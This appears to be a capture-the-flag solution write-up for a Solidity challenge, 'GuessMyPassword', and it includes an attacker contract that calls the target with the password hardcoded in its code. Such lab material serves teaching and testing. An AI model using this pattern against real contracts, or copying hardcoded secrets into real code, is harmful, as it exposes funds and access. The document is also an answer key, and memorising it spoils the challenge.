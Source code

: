 # GuessMyPassword

## Solution :

To validate this challenge, the user needs to find the good password.

To do that, he needs to read the code and find that the `password` variable has his value writing in the code.

And after that, he needs to call the `guessMyPassword()` function with this password.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/easyChalls/GuessMyPassword.sol";

contract attackGuessMyPassword {
    GuessMyPassword originalContract;
    bytes32 password = "M0t2p4S5Etr35s3CUr153";

    constructor(address _originalContract) public {
        originalContract = GuessMyPassword(_originalContract);
    }

    function exploit() public {
        originalContract.guessMyPassword(password);
    }
}
```